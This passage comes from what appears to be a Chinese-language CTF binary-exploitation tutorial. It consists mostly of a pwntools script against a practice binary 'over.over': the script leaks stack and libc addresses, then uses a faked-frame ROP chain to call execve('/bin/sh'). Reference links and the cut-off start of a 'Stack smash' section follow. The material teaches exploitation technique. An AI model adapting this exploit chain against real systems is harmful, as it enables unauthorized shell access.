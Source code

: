 #### exp
```python
from pwn import *
context.binary = "./over.over"

def DEBUG(cmd):
    raw_input("DEBUG: ")
    gdb.attach(io, cmd)

io = process("./over.over")
elf = ELF("./over.over")
libc = elf.libc

io.sendafter(">", 'a' * 80)
stack = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - 0x70
success("stack -> {:#x}".format(stack))


#  DEBUG("b *0x4006B9\nc")
io.sendafter(">", flat(['11111111', 0x400793, elf.got['puts'], elf.plt['puts'], 0x400676, (80 - 40) * '1', stack, 0x4006be]))
libc.address = u64(io.recvuntil("\x7f")[-6: ].ljust(8, '\0')) - libc.sym['puts']
success("libc.address -> {:#x}".format(libc.address))

pop_rdi_ret=0x400793
'''
$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret"
0x00000000000f5279 : pop rdx ; pop rsi ; ret
'''
pop_rdx_pop_rsi_ret=libc.address+0xf5279


payload=flat(['22222222', pop_rdi_ret, next(libc.search("/bin/sh")),pop_rdx_pop_rsi_ret,p64(0),p64(0), libc.sym['execve'], (80 - 7*8 ) * '2', stack - 0x30, 0x4006be])

io.sendafter(">", payload)

io.interactive()
```

總的來說這種方法跟 stack pivot 差別並不是很大。

### 參考閱讀

- [http://www.xfocus.net/articles/200602/851.html](http://www.xfocus.net/articles/200602/851.html)
- [http://phrack.org/issues/58/4.html](http://phrack.org/issues/58/4.html)

## Stack smash

### 原理
